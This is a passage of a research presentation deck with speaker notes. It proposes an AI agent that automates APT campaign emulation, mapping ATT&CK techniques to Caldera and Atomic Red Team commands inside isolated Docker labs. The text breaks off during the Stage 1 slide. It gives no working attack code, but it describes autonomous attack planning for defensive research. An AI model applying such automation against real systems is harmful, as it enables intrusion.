



<div class="cover" style="position:absolute;inset:0;"></div>

<div class="absolute top-10 left-14 right-14">
  
</div>

<div class="absolute left-14 right-14" style="top:34%;">
  <div class="kicker">CE-299 · Artificial Intelligence for Cybersecurity</div>
  <h1 style="font-size:2.3rem;line-height:1.12;max-width:66rem;white-space:nowrap;">
    The <span class="grad-text">Procedural Semantics Gap</span> in ATT&amp;CK-in-STIX
  </h1>
  <div style="font-size:1.18rem;color:var(--ink-soft);margin-top:.6rem;max-width:66rem;white-space:nowrap;">
    Automating APT campaign execution with autonomous artificial-intelligence agents
  </div>
  <div class="grad-rule" style="margin-top:1.1rem;width:120px;height:5px;"></div>
</div>

<div class="absolute bottom-16 left-14 right-14 flex justify-between items-end">
  <div>
    <div style="font-size:1.35rem;font-weight:800;color:var(--ink);">Nilson Sangy</div>
    <div style="font-size:.95rem;color:var(--muted);">Instituto Tecnológico de Aeronáutica · STICKS research platform</div>
  </div>
  <div style="text-align:right;">
    <div style="font-size:1.05rem;font-weight:700;color:var(--sticks-purple);">Nov 20, 2026</div>
    <div style="font-size:.8rem;color:var(--muted);">github.com/c2dc/sticks</div>
  </div>
</div>

<!--
Good evening everyone, and thank you for being here. My name is Nilson Sangy, and today I am going to present STICKS, a research platform I have been building for the course CE-299, Artificial Intelligence for Cybersecurity.

The full title of the work is "The Procedural Semantics Gap in ATT&CK-in-STIX: Measuring Procedural Sufficiency for APT Emulation." That is a long title, so let me unpack it in plain terms before we dive in. ATT&CK and STIX are the standard ways the security community describes what attackers do. The problem is that they describe attacker behavior at a fairly abstract level, they tell you which techniques an adversary used, but not the exact procedure: the concrete commands, the order they run in, and the environment they need. That missing layer is what we call the "procedural semantics gap," and measuring it is the heart of this research.

My specific contribution, the part I want you to remember from tonight, is captured in the subtitle: automating the execution of APT campaigns with autonomous artificial-intelligence agents. Today, closing the gap is done by hand. A human analyst sits down and translates abstract techniques into runnable attacks, and also designs the environment where those attacks can be emulated safely. My goal is to build an AI agent that does both of those jobs automatically.

So the talk has a clear arc. First I will set up the problem and why it matters. Then I will walk through the building blocks, ATT&CK, Caldera, Atomic Red Team, and how we provision isolated environments. After that I will take you through the six-stage pipeline that already exists, explaining the input, processing, and output of each stage, because understanding that flow is what makes my proposal concrete. Finally I will present the AI agent itself, the architecture and each component, and close with what we have already proven working and where the project goes next.

One framing note: everything in STICKS runs inside a fully contained laboratory. No attack command ever touches the host or the internet. That containment is non-negotiable, and you will hear me come back to it several times, because it is both what makes the lab safe and what makes it technically hard.

Let's begin with the motivation.
-->

---
layout: default
---

# Motivation: the gap, and the part I automate

<div class="grad-rule"></div>

<div class="two-col">
<div class="tight">

<div class="card edge-blue">
<h3>What structured CTI gives us</h3>
<p>STIX + ATT&CK tell us <strong>which</strong> techniques a campaign used, a shared, machine-readable vocabulary of adversary behavior.</p>
</div>

<div class="card edge-red">
<h3>What it does <em>not</em> give us, the procedural semantics gap</h3>
<p>It does <strong>not</strong> give the <strong>procedure</strong>: the concrete commands, their order, their dependencies, and the environment the attack needs. Without that, a campaign cannot be <strong>reproduced</strong>.</p>
</div>

<div class="card edge-grad">
<h3>My work, an AI agent that fills the gap on two fronts</h3>
<ul>
<li><span class="pill purple">1 · Command semantics</span> generate the <strong>executable commands</strong> of a campaign, the right techniques, parametrized, in the right order.</li>
<li><span class="pill red">2 · Environment emulation</span> design &amp; provision the <strong>isolated environment</strong> where those attacks are emulated.</li>
</ul>
</div>

</div>

<div>
<div class="imgframe" style="height:220px;">

</div>

<div class="card flat" style="margin-top:.8rem;">
<h3>Why it matters for research</h3>
<p>Today this translation is <strong>human-curated</strong> and slow. STICKS makes the gap <strong>measurable</strong>; automating the curation lets us <strong>compare AI vs. human</strong> procedural sufficiency at scale.</p>
</div>
</div>

</div>

<!--
Let me make the motivation concrete, because this one idea drives the entire project.

When an organization wants to understand a threat, it consumes cyber threat intelligence, CTI, and the standard format for that is STIX, structured on top of the MITRE ATT&CK knowledge base. This is genuinely useful: it gives us a shared, machine-readable vocabulary. If I say an APT used "Phishing" for initial access and "OS Credential Dumping" for credential access, every analyst in the world knows exactly what I mean. That is the left-hand card: structured CTI tells us WHICH techniques a campaign used.

But here is the catch, and it is the whole reason this research exists. Knowing which techniques were used is not the same as being able to reproduce the attack. ATT&CK tells you "the adversary dumped credentials." It does not tell you the exact command, which tool, with which arguments, in what order relative to the other steps, or what has to already be true in the environment for that command to even work. That missing layer, the concrete, runnable procedure, is what we call the procedural semantics gap. It is the difference between a description of an attack and an executable reproduction of it. If you cannot reproduce a campaign, you cannot reliably test your defenses against it.

Now, my specific contribution. Closing that gap is possible, in fact my colleagues did it by hand for eight real campaigns. But doing it manually is slow, needs deep expertise, and does not scale. So my work is to build an AI agent that fills the gap automatically, and crucially it has to do it on two fronts, which you can see in the gradient card.

The first front is command semantics: turning abstract techniques into the actual executable commands of the campaign, selecting the right technique implementation, parametrizing it for this target, and ordering it correctly. The second front is environment emulation: an attack command is meaningless without a target that has the right services and vulnerabilities, wired into the right network. So the agent must also design and provision the isolated environment in which the attack is emulated.

Why does this matter for the research? Because STICKS turns the gap into something we can measure, a success rate, a verdict. Once curation is automated, we can run the AI agent against the same eight campaigns a human curated and directly compare: does the AI reach the same procedural sufficiency as a human expert? That comparison is the scientific payoff.

Image credit: "Closeup binary coding screen", rawpixel, CC0 (public domain), via Openverse.
-->

---
layout: default
---

# Agenda: our roadmap for today

<div class="grad-rule"></div>

<div class="cards c2" style="gap:1rem;">

<div class="card edge-blue">
<h3>1 · Background &amp; building blocks</h3>
<ul>
<li>The MITRE ATT&amp;CK matrix, how to read it</li>
<li>MITRE Caldera &amp; the isolated lab</li>
<li>Atomic Red Team</li>
<li>Provisioning types</li>
</ul>
</div>

<div class="card edge-purple">
<h3>2 · The six-stage pipeline</h3>
<ul>
<li>Overview &amp; sequential gating</li>
<li>One slide per stage , <br/><strong>Input · Processing · Output</strong></li>
<li>What exists &amp; works today</li>
</ul>
</div>

<div class="card edge-grad">
<h3>3 · The gap &amp; my proposal</h3>
<ul>
<li>The manual curation gap</li>
<li>The AI curation agent</li>
<li>Architecture &amp; components</li>
</ul>
</div>

<div class="card edge-red">
<h3>4 · Evidence &amp; close</h3>
<ul>
<li>What is already proven (real E2E)</li>
<li>Roadmap &amp; next steps</li>
<li>Q&amp;A</li>
</ul>
</div>

</div>

<div style="margin-top:1rem;" class="pill blue">We spend the most time on parts 2 and 3, the pipeline and the agent.</div>

<!--
Here is how the talk is structured, so you know where we are going.

I have organized it into four parts after this agenda. Let me walk through them quickly so the structure is in your head, and so you can follow the thread.

Part one is background and building blocks. Before I can explain my contribution, we need a shared understanding of a few foundational pieces. I will start with the MITRE ATT&CK matrix itself, what it is and how to read it, because everything else sits on top of it, and some of you may not work with it day to day. Then MITRE Caldera and our isolated laboratory, which is the engine and the safe sandbox where attacks actually run. Then Atomic Red Team, which is a library of concrete attack commands. And finally the different ways we provision the target environment, which turns out to be surprisingly subtle because of the containment requirement.

Part two is the six-stage pipeline. This is the system as it exists and works today. I will give you an overview first, and then spend one slide on each of the six stages. For every stage I will use the same three-part structure, input, processing, and output, because that consistent framing is exactly what makes the later automation proposal concrete. By the end of part two you will understand the full data flow from raw threat intelligence all the way to a measured execution report.

Part three is the core of my work: the gap and my proposal. I will first make very explicit which parts of the pipeline a human does by hand today. Then I will present my proposal, an AI agent that automates that curation, followed by the architecture of the agentic environment and a breakdown of each component.

Part four is evidence and close. I will show you what is already proven to work, including a real end-to-end emulation we ran, then the roadmap and next steps, and we will finish with questions.

If you only track two things tonight, track parts two and three, the pipeline and the agent. That is where the substance is, and that is where I will spend most of our time. Everything in part one is there to make those two parts land. With that map in mind, let us start with the building blocks, beginning with the ATT&CK matrix.
-->

---
layout: default
class: section-divider
---

<div class="section" style="position:absolute;inset:0;"></div>

<div class="absolute top-8 left-14">
  
</div>

<div class="absolute left-14 right-14" style="top:40%;">
  <div class="kicker">Section 01</div>
  <h1 style="font-size:3rem;">Background &amp; <span class="grad-text">Building Blocks</span></h1>
  <div class="grad-rule" style="width:140px;height:6px;"></div>
  <div style="font-size:1.1rem;color:var(--ink-soft);max-width:48rem;">
    ATT&amp;CK · MITRE Caldera &amp; the isolated lab · Atomic Red Team · provisioning types
  </div>
</div>

<!--
We are now entering the first section: background and building blocks. The purpose of this section is to make sure everyone shares the same mental model before I get to the pipeline and my proposal.

There are four building blocks I want to cover. The first is the MITRE ATT&CK matrix, which is the foundational knowledge base for describing attacker behavior. The second is MITRE Caldera together with the isolated laboratory, Caldera is the adversary-emulation engine, and the lab is the contained Docker environment where everything runs. The third is Atomic Red Team, a community library that gives us concrete commands for individual techniques. And the fourth is provisioning, meaning the different ways we stand up the target environment safely.

I am deliberately spending time here because these four concepts recur throughout the rest of the talk. When I later say "the agent picks a command from Atomic Red Team and parametrizes it for a target in the isolated lab," I want that sentence to already make complete sense to you. So let us take them one at a time, starting with the ATT&CK matrix, which is the thing everything else hangs on.
-->

---
layout: default
---

# The MITRE ATT&CK matrix

<div class="grad-rule"></div>

<div class="two-col" style="grid-template-columns:1.35fr .9fr;gap:1.2rem;align-items:start;">

<div>
<div class="imgframe" style="height:300px;">

</div>
<div class="flex items-center" style="margin-top:.5rem;gap:.6rem;">
<span class="pill purple">14 tactics</span>
<a href="https://attack.mitre.org/" style="font-size:.95rem;font-weight:700;white-space:nowrap;">https://attack.mitre.org/</a>
</div>
</div>

<div class="tight">
<div class="card edge-blue" style="padding:.7rem .85rem;">
<h3>How to read the matrix</h3>
<ul>
<li><strong style="color:var(--sticks-blue);">Columns = Tactics</strong>, the "why": the adversary's goal (gain Initial Access, achieve Impact).</li>
<li><strong style="color:var(--sticks-purple);">Cells = Techniques</strong>, the "how": a method to achieve the tactic. Many expand into sub-techniques.</li>
<li><strong style="color:var(--sticks-red);">A campaign = a path</strong> across the matrix: an ordered chain of techniques an APT actually executed.</li>
</ul>
</div>

<div class="card edge-grad" style="padding:.7rem .85rem;">
<h3>What ATT&CK gives us, and what it does NOT</h3>
<ul>
<li>✓ A shared vocabulary of adversary behavior, from real intrusions.</li>
<li>✓ The "what": which techniques a campaign is associated with (the base of STIX CTI).</li>
<li style="color:#b91c1c;">✗ NOT the procedure: no concrete commands, order, or dependencies.</li>
<li style="color:#b91c1c;">✗ That missing "how" is the <strong>procedural semantics gap</strong> STICKS measures.</li>
</ul>
</div>
</div>

</div>

<!--
This is the MITRE ATT&CK matrix, and for anyone who has not worked with it, this slide is for you. ATT&CK stands for Adversarial Tactics, Techniques, and Common Knowledge. It is a globally used, freely available knowledge base of real-world adversary behavior, curated by MITRE from threat reports and incident data. If you want to explore it yourself, the address is on the slide, attack dot mitre dot org, and I encourage you to type it in and click around; it is one of the best free resources in our field.

Here is how to read the matrix, because the layout encodes meaning. Across the top you have the columns, and each column is a tactic. A tactic is the adversary's goal, the "why" of an action. Reading left to right, they roughly follow the arc of an intrusion: Reconnaissance, Resource Development, Initial Access, Execution, Persistence, Privilege Escalation, Defense Evasion, Credential Access, Discovery, Lateral Movement, Collection, Command and Control, Exfiltration, and finally Impact. Fourteen tactics in total for the Enterprise matrix.

Underneath each tactic, the cells are techniques. A technique is the "how", a specific method an adversary uses to achieve that tactic. For example, under Initial Access you will find "Phishing"; under Credential Access you will find "OS Credential Dumping." Many techniques further break down into sub-techniques, so the full matrix has hundreds of entries. This is the official ATT&CK Matrix for Enterprise, and you can see the sub-technique counts in parentheses next to many of the entries.

Now the key insight, summarized in the panel on the right, and it is the bridge to my whole talk. A real campaign, what an actual APT group did, is a path across this matrix: an ordered chain of techniques, one leading to the next. ATT&CK is excellent at telling us the "what": which techniques a given actor or campaign is associated with. That is exactly the knowledge that gets encoded into STIX threat intelligence.

But, and this is the crucial limitation, ATT&CK does not give us the procedure. It names the technique "OS Credential Dumping," but it does not hand you the exact command, the tool, the arguments, the order, or the prerequisites. That missing "how-exactly" is the procedural semantics gap we talked about in the motivation. So ATT&CK gives us a precise shared language for behavior, and simultaneously shows us exactly what is missing when we try to turn that language back into a runnable attack. Keep that tension in mind, because the rest of the pipeline is built to close it.
-->

---
layout: default
---

# MITRE Caldera &amp; the isolated lab

<div class="grad-rule"></div>

<div class="two-col" style="grid-template-columns:1fr 1.15fr;gap:1.3rem;align-items:center;">
<div class="tight">

<div class="card edge-blue" style="padding:.65rem .85rem;">
<h3>MITRE Caldera, the emulation engine</h3>
<p>An open-source <strong>adversary-emulation / C2</strong> platform. It runs <strong>Abilities</strong> (executable commands) grouped into an <strong>Adversary</strong> profile, against agents on target hosts, and tracks each step live.</p>
</div>

<div class="card edge-red" style="padding:.65rem .85rem;">
<h3>Containment is non-negotiable</h3>
<ul>
<li>Commands run <strong>only</strong> inside internal-only Docker networks, <strong>no route</strong> to host or internet</li>
<li>External target → run <strong>blocked</strong>; non-isolated container → <strong>aborted</strong> (read-only check)</li>
<li>Explicit <strong>preview + confirmation</strong>; <strong>1:1 audit</strong> per command</li>
</ul>
</div>

</div>

<div>

<div class="caption" style="text-align:center;">Emulated environment: C2 → attacker → web target → data target, on three internal /24 networks.</div>
</div>

</div>

<div class="cards c3" style="margin-top:.8rem;gap:.7rem;">
<div>
<div class="imgframe" style="height:150px;">

</div>
<div class="caption"><strong>Abilities</strong>: commands mapped to ATT&CK techniques.</div>
</div>
<div>
<div class="imgframe" style="height:150px;">

</div>
<div class="caption"><strong>Link output</strong>: the concrete command and its real output.</div>
</div>
<div>
<div class="imgframe" style="height:150px;">

</div>
<div class="caption"><strong>Operation</strong>: live run, each step tracked by status.</div>
</div>
</div>

<!--
The second building block is the pair that actually executes attacks: MITRE Caldera and our isolated laboratory.

Let me start with Caldera, on the left. Caldera is an open-source adversary-emulation platform maintained by MITRE. You can think of it as a command-and-control server built specifically for red teaming and automated emulation. It has two concepts that will come back later. The first is an "Ability," which is a single executable action, essentially a concrete command tied to an ATT&CK technique. The second is an "Adversary," which is a profile that bundles and orders a set of Abilities to represent a specific threat actor or campaign. Caldera deploys a lightweight agent onto each target host, sends the Abilities to be executed, and tracks the result of every step in real time. So Caldera is the engine that takes our curated commands and actually runs the campaign.

Now the right side, the laboratory, which we also call the System Under Test. This is the contained Docker environment where the emulation happens, and this diagram is its topology. There are four containers. Caldera is the C2 server. Kali is the attacker machine, it runs the Caldera agent and is where the attack commands actually execute from. Then there are two targets: an nginx web server and a database. They are wired together across three separate internal networks, caldera-to-kali, kali-to-nginx, and nginx-to-db, each a small class C subnet. We even adopted a readable convention where the last number of the IP identifies the machine: the attacker is always dot twenty, the web target always dot thirty, and so on, on every network it sits on.

And now the part I will keep repeating, because it is genuinely the backbone of the design: containment is non-negotiable. Every one of these networks is marked internal-only. That means there is no route from inside the lab to the host machine or to the internet. Attack commands can only ever reach the lab's own targets. On top of that physical isolation, the system enforces several software guards. Before anything runs, it parses every command's target; if any target points outside the internal subnets, the entire operation is blocked and the offending command is named. It also does a read-only inspection of the target containers; if any is not properly isolated, the run is aborted. Nothing executes without an explicit preview and confirmation of the exact commands and their targets. And every executed command produces exactly one audit record, a one-to-one trail. This is what lets us safely emulate a real APT campaign on a laptop without any risk of a command escaping into the wild.

The three screenshots along the bottom are from the real Caldera interface, and together they show the three concepts in action. On the left is the Abilities view: a searchable catalog of abilities, here filtered to a single ATT&CK technique, each tagged with its tactic and target platform. In the middle is a Link Output: click into any executed step and you see the exact command that ran and the raw output it produced on the target. On the right is an Operation actually running: you can see the ordered chain of abilities, each with a status, success in green, failed in red, as the campaign executes live. Read together, they go from the single concrete command and its output to the full ordered campaign, which is exactly the flow STICKS drives and previews what the pipeline automates end to end.
-->

---
layout: default
---

# Atomic Red Team

<div class="grad-rule"></div>

<div style="font-size:.82rem;color:var(--ink-soft);margin-bottom:.4rem;">
Open-source library (Red Canary) of small, portable <strong>"atomic tests"</strong>: concrete commands mapped to ATT&amp;CK technique IDs, the practical catalog behind the "how".
</div>

<div class="stats" style="margin-bottom:.5rem;">
<div class="stat" style="padding:.5rem;"><div class="n grad-text" style="font-size:1.5rem;">1,600+</div><div class="l">atomic tests in the library</div></div>
<div class="stat" style="padding:.5rem;"><div class="n grad-text" style="font-size:1.5rem;">290+</div><div class="l">ATT&amp;CK techniques covered</div></div>
<div class="stat" style="padding:.5rem;"><div class="n grad-text" style="font-size:1.5rem;">14</div><div class="l">tactics spanned</div></div>
<div class="stat" style="padding:.5rem;"><div class="n grad-text" style="font-size:1.5rem;">7+</div><div class="l">platforms (OS + cloud + containers)</div></div>
</div>

<div class="two-col" style="grid-template-columns:1.02fr .98fr;gap:1rem;align-items:start;">

<div>

</div>

<div class="tight">
<div class="card edge-blue" style="padding:.6rem .8rem;">
<h3>Anatomy of one atomic test</h3>
<p style="margin-bottom:.3rem;">Example, <code>T1218.011</code> Rundll32 (Signed Binary Proxy Execution), 16 atomic tests. Each test carries:</p>
<ul style="margin:0;">
<li><code>executor</code> + <code>command</code>, the concrete command line</li>
<li><code>supported_platforms</code>, e.g. <span class="pill">windows</span><span class="pill">linux</span><span class="pill">macos</span></li>
<li><code>input_arguments</code>, parametrizable targets/paths</li>
<li><code>dependencies</code> / <code>get_prereq_command</code>, setup needed first</li>
</ul>
</div>
<div class="card edge-red" style="padding:.6rem .8rem;">
<h3>Catalog, not a curator</h3>
<p>It gives the command <strong>per technique</strong>, not the campaign's <strong>chaining</strong> (order + cross-step dependencies), that is the DAG (Stage 3). Selecting, parametrizing &amp; sequencing tests for a campaign is the manual work the AI agent automates.</p>
</div>
</div>

</div>

<div class="card flat edge-purple" style="margin-top:.5rem;padding:.5rem .85rem;">
<p><strong>Role in STICKS:</strong> the planned <strong>source of commands</strong> for the AI agent at Stage 4. Its <code>dependencies</code> / <code>input_arguments</code> / <code>supported_platforms</code> map directly onto the pipeline's <strong>environment parameters</strong>; Caldera's <strong>Atomic</strong> plugin ingests these tests as Abilities.</p>
</div>

<!--
The third building block is Atomic Red Team, and this slide is important because it sets up precisely where my AI agent does its most interesting work.

Atomic Red Team is an open-source project, originally from Red Canary, that is essentially a library of what they call "atomic tests." An atomic test is a small, self-contained, portable piece of attack behavior, in practice, one concrete command, and each test is mapped to a specific ATT&CK technique ID. So where ATT&CK says "Technique T-such-and-such: OS Credential Dumping," Atomic Red Team gives you an actual command you can run that performs that technique. That is extremely valuable, because it is the first time we move from the abstract "what" to a concrete "how."

Each atomic test is also nicely structured, and three fields matter for us. There is a dependencies or prerequisite-command field, which tells you what must already be set up before the test can run. There are input arguments, which are the parametrizable parts, typically the targets, like which host or which file. And there is a supported-platforms field, telling you whether it runs on Windows, Linux, and so on. Hold onto those three fields, because in a moment you will see they map almost one-to-one onto what we call "environment parameters" in the pipeline.

Now the critical point, on the right: Atomic Red Team by itself is not enough to reproduce a campaign. It gives you the command for a single technique in isolation. What it does not give you is the chaining, the order in which the techniques run across a whole campaign, and the dependencies between them. A real campaign is not a bag of independent commands; step five might only work because step three already created a user or planted a file. That ordering and those cross-step dependencies come from somewhere else in our pipeline, the DAG, which I will cover in Stage 3.

So the honest way to describe Atomic Red Team is: it is a catalog, not a curator. It is a rich inventory of per-technique commands, but somebody still has to select the right test for each technique in this specific campaign, parametrize it for the specific targets in our lab, and sequence everything correctly. Today a human does that selection and parametrization. In STICKS, Atomic Red Team is the planned source of commands for the AI agent at Stage 4, Operationalization, and that selecting-parametrizing-sequencing job is exactly the manual labor my agent is designed to automate. As a nice bonus, Caldera already includes an Atomic plugin that can ingest these tests as Abilities, so the two tools fit together naturally.

Let me give you a sense of scale, because the dashboard on this slide shows what is actually inside the library. Atomic Red Team ships well over one thousand six hundred atomic tests, covering around two hundred and ninety ATT&CK techniques across all fourteen tactics. These are approximate, open-source figures that grow with every community contribution, so treat them as a snapshot rather than exact constants. The platform breakdown is the important part: Windows has by far the deepest coverage, on the order of eleven to twelve hundred tests, followed by Linux with a few hundred, then macOS, and then a growing set for cloud and SaaS, Azure AD, AWS, GCP, Microsoft 365, and for containers like Docker and Kubernetes. Many tests are multi-platform; in the index you literally see a test tagged with "windows, macos, linux" when the same behavior applies everywhere.

The example card makes it concrete. Take technique T1218.011, Rundll32, a classic signed-binary proxy-execution trick on Windows. That single technique has sixteen distinct atomic tests, each a different way to abuse rundll32. And every test is a small structured record: an executor and the exact command line, the supported platforms, input arguments that parametrize targets and paths, and dependencies with a prerequisite command that must run first. Those last fields, input arguments and dependencies, are exactly what my pipeline consumes as environment parameters, which is why this library is such a natural source for the agent. But notice the flip side, and it is the whole point: the library gives you sixteen ways to do one technique, yet it says nothing about which one this campaign used, with which arguments, and in what order relative to the other techniques. That selection, parametrization, and sequencing is the human curation we are automating.
-->

---
layout: default
---

# Provisioning types

<div class="grad-rule"></div>

<div class="cards c2" style="gap:1rem;">
<div class="card edge-blue">
<h3>Platform: container today, VM-ready</h3>
<p>Targets are provisioned as <strong>Docker containers</strong>, enough to emulate hosts, services &amp; networks on a laptop. The design carries an explicit <strong>platform</strong> attribute so a <strong>virtual machine</strong> backend can be added later <strong>without redesign</strong>.</p>
</div>
<div class="card edge-purple">
<h3>Two sub-phases: online build vs. offline isolated</h3>
<ul>
<li><strong>5.1 Build (online):</strong> a controlled egress window installs prerequisites (apt / pip / wget / git).</li>
<li><strong>5.2 Runtime (isolated):</strong> re-isolate, <strong>positively verify egress is gone</strong>, then apply offline setup, load Abilities, isolation gate.</li>
</ul>
</div>
</div>

<div class="card flat edge-red" style="margin-top:1rem;">
<h3>The egress window, the containment invariant</h3>
<p>The build window and the attack window are <strong>mutually exclusive</strong>: a target is <strong>never</strong> simultaneously connected to the internet <em>and</em> attached to the attack networks. Loss of egress is <strong>positively verified</strong> (a reachability probe that must fail), never assumed, <strong>fail-closed</strong>.</p>
<div style="margin-top:.4rem;">
<span class="pill blue">attach egress net</span> → <span class="pill">install online</span> → <span class="pill">detach egress</span> → <span class="pill red">verify egress gone</span> → <span class="pill purple">attach attack nets</span>
</div>
</div>

<!--
The last building block is provisioning, how we actually stand up the target environment. This sounds mundane, but it is one of the most technically delicate parts of the whole system, precisely because of the containment rule, and it is directly relevant to the environment-emulation half of my agent's job.

Let me cover two dimensions. The first, on the top left, is the platform. Today every target is provisioned as a Docker container. Containers are lightweight enough that we can emulate several hosts, their services, and three separate networks all on a single laptop, which fits our hardware constraints. But we did not hard-code that choice. The design carries an explicit "platform" attribute on the environment model, with container as today's value and virtual machine as a reserved future value. So if a future campaign needs a full VM, say, to emulate something a container cannot, that backend can be added without redesigning the pipeline. This extensibility-by-attribute pattern is a recurring design theme you will see again with the AI agent.

The second dimension, top right, is the one that caused us real pain, and it is the heart of safe provisioning. Many attack techniques need software that is not in the base image, think nmap, or a crypto-miner pulled down with wget, or something installed via apt or pip. Installing that software needs internet access. But our attack networks are internal-only; there is deliberately no internet. Early on, setups simply hung forever trying to reach a mirror that was not reachable. So we split provisioning into two sub-phases. Phase five-point-one is the build phase, and it runs online: we open a controlled egress window and install all the prerequisites. Phase five-point-two is the runtime phase, and it runs isolated: we re-isolate the target, apply the offline setup like creating users and starting services, load the Abilities into Caldera, and run the isolation gate.

And now the invariant that ties it together, on the bottom. The build window and the attack window are mutually exclusive. A target is never, at any instant, simultaneously connected to the internet and attached to the attack networks with the other targets. If it were, you could have a command reaching out to the real internet, which is exactly what we forbid. The sequence is shown at the bottom: attach a temporary egress network, install what you need online, detach that egress network, then, and this is the key safety step, positively verify that egress is actually gone, by probing an external endpoint and requiring that probe to fail. Only after egress is confirmed dead do we attach the attack networks. Crucially, we never assume the internet is gone; we prove it, and if the check is inconclusive we treat it as still-connected and refuse to proceed. That is what "fail-closed" means, and it is the safety philosophy behind the entire lab.
-->

---
layout: default
class: section-divider
---

<div class="section" style="position:absolute;inset:0;"></div>

<div class="absolute top-8 left-14">
  
</div>

<div class="absolute left-14 right-14" style="top:40%;">
  <div class="kicker">Section 02</div>
  <h1 style="font-size:3rem;">The <span class="grad-text">Six-Stage Pipeline</span></h1>
  <div class="grad-rule" style="width:140px;height:6px;"></div>
  <div style="font-size:1.1rem;color:var(--ink-soft);max-width:52rem;">
    From raw STIX to a measured execution report, one explicit stage at a time.
    <div style="margin-top:.3rem;">Each stage has Input · Processing · Output.</div>
  </div>
</div>

<!--
Now we move into section two, the six-stage pipeline. This is the system as it exists and works today, and it is the backbone that my AI agent will eventually drive.

Here is the promise for this section. I am going to give you an overview of all six stages first, and then I will spend one slide on each stage. For every single stage I will use the exact same three-part structure: what goes in, what happens inside, and what comes out, input, processing, output. I am being disciplined about that structure on purpose. The pipeline is explicitly designed so that each stage is a clean transformation with a well-defined contract, and the output of one stage is the input of the next. That clean contract is not just good engineering; it is what makes the automation proposal in the next section tractable. When I later say "the AI agent replaces the processing of stages three, four, and five," you will know precisely what inputs it receives and what outputs it must produce, because we will have walked through them here.

So think of this section as building the map. By the end of it you will be able to trace a campaign all the way from a raw threat-intelligence bundle, through modeling and curation, into a contained execution, and out to a measured report with a verdict. Let us start with the overview that shows all six stages at once.
-->

---
layout: default
---

# Pipeline overview: six stages, one contract

<div class="grad-rule"></div>


<div class="cards c3" style="margin-top:.7rem;gap:.7rem;">
<div class="card flat edge-blue" style="padding:.5rem .8rem;"><p><strong>Sequential gating</strong>, a stage starts only when the previous one is complete.</p></div>
<div class="card flat edge-purple" style="padding:.5rem .8rem;"><p><strong>Input · Processing · Output</strong>, the same contract on every stage.</p></div>
<div class="card flat edge-red" style="padding:.5rem .8rem;"><p><strong>AI loop (future)</strong>, stages 3&#8211;6 become a plan &#8594; execute &#8594; measure cycle: the verdict refines the next iteration.</p></div>
</div>

<!--
This is the whole pipeline on one slide, and it is worth orienting yourself here because the next six slides each zoom into one of these boxes.

Reading left to right, following the gradient from blue to red. Stage one is STIX Base Selection: we choose a version of the ATT&CK knowledge base, download it from MITRE if we do not already have it, and show a dashboard of what is inside. Stage two is Campaign Selection: from that bundle we list the available campaigns, pick one, and extract its attributes. Stage three is DAG Generation: we build the ordered dependency graph of the campaign's techniques, this is where the chaining that Atomic Red Team lacks comes from. Stage four is Operationalization: we turn the graph into concrete, ordered Abilities, and we derive the environment parameters those commands require. Stage five is Environment Provisioning: we stand up the containers, load the Abilities into Caldera, and verify isolation. And stage six is Execution, Measurement, and Report: we run the campaign in the contained lab, measure procedural sufficiency, produce the report, and tear the environment back down.

Three properties cut across all six stages, summarized in the three cards below the diagram. First, sequential gating. The stages are strictly ordered: a stage cannot start until the previous one has completed successfully. If you go back and change an earlier choice, say you pick a different campaign, the system invalidates and resets every downstream stage, so you can never end up with inconsistent state. This gating is enforced in the backend over simple stage records, not hard-coded, which is why extending from an earlier five-stage design to six stages was almost mechanical.

Second, and I keep coming back to this, every stage honors the same input-processing-output contract. That uniformity is what you are meant to take away from this section.

Third, and this is the hook into my proposal, look at stages three, four, and five. Today, for our eight curated campaigns, the processing in those three stages simply reads human-curated artifacts from disk. No AI, no network. But the architecture deliberately exposes an "origin" attribute on each of those stages, with a value of "human curation" today and a reserved value of "AI generated" for the future. That single design decision is what lets an AI agent slot into exactly these three stages later without any redesign. So as we walk through the stages, pay special attention to three, four, and five, those are the ones my agent will take over.

And there is one more idea I want you to take from this diagram, shown by the dashed purple region and the curved arrow looping back underneath. Today the pipeline runs once, straight through, stage one to stage six. But when the AI agent arrives, stages three through six stop being a one-way street and become a closed loop. The agent plans the campaign as a DAG in stage three, turns it into concrete commands in stage four, provisions the environment in stage five, and executes and measures in stage six. Then the key move: it reads the measured result, the success rate, the failed nodes, the verdict, and feeds that back to refine its own plan. Maybe a command was wrong, maybe the environment was missing a service, maybe the ordering was off. The agent adjusts the DAG, the commands, or the environment, and runs again. So stages three to six become a plan, execute, measure, and improve cycle, a continuous-improvement loop driven by the procedural-sufficiency metric. That is what turns this from a static pipeline into an autonomous agent that gets better with each iteration, and it is the vision the rest of the talk builds toward.
-->

---
layout: default
---

# Stage 1: STIX Base Selection

<div class="grad-rule"></div>

<div class="ipo">
<div class="box in">
<div class="lbl">Input</div>
<ul>
<li>A requested <strong>ATT&amp;CK version</strong> (bundle), e.g. Enterprise v18</li>
<li>User intent to start a campaign run</li>
</ul>
</div>
<div class="box pr">
<div class="lbl">Processing</div>
<ul>
<li>Check local cache; if absent, <strong>download</strong> from the official MITRE source</li>
<li><strong>Only network egress</strong> in the whole pipeline; validated version, atomic write</li>
<li>Parse the bundle → build a <strong>dashboard</strong> (counts by type, campaigns)</li>
</ul>
</div>
<div class="box out">
<div class="lbl">Output</div>
<ul>
<li>The <strong>STIX bundle on disk</strong> (persistent user cache, outside the repo)</li>
